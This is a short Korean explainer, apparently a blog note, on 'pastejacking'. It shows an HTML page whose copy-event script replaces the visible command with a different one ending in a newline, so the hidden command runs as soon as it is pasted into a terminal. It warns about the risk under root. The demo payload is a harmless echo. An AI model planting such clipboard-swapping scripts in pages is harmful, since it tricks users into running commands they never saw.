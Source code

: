 ```html
<html>
 	<p>echo "not evil"</p>
 	
 	<script>
 		document.addEventListener('copy', function(e) {
 			console.log(e);
 			e.clipboardData.setData('text/plain', 'echo "evil"\r\n');
 			e.preventDefault();
 		});
 	</script>
</html>
```

페이스트 재킹이라고, 카피 이벤트를 핸들링해서 유저가 보고 있는 화면과, 복사된 화면이 다르게 하는 경우가 있다. 위의 경우에는 echo "not evil" 이 실행될 거라 예상하고 복사해서 터미널에 붙이는 순간, 실제로는 echo "evil"이 실행된다. 물론 대부분 관리자 권한에 대해서는 따로 체크하겠지만, root 계정으로 접속되어 있는 상태라면 문제가 발생할 수도 있겠다.